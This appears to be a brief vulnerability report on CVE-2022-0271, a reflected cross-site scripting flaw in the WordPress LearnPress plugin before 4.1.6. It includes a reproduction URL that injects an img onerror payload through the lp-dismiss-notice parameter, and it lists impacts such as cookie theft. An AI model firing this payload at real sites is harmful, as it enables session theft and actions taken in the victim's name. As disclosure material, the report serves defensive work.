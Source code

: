 ## Cross-Site Scripting
 
 WordPress LearnPress plugin before 4.1.6 contains a cross-site scripting vulnerability. It does not sanitize and escape the lp-dismiss-notice before outputting it back via the `lp_background_single_email` AJAX action.
 


## Steps To Reproduce

 Go to this  URL  
 ```
 https://$DOMAIN/wp-admin/admin-ajax.php?action=lp_background_single_email&lp-dismiss-notice=xxx<img%20src=x%20onerror=alert(document.domain)>
 ```
 

## Impact

 -  Perform any action within the application that the user can perform.
-   View any information that the user is able to view.
-   Modify any information that the user is able to modify.
-   Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user..
- Steal user's cookie. 

 
### Supporting Material/References
* https://nvd.nist.gov/vuln/detail/cve-2022-0271
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0271
* https://nvd.nist.gov/vuln/detail/cve-2022-0271
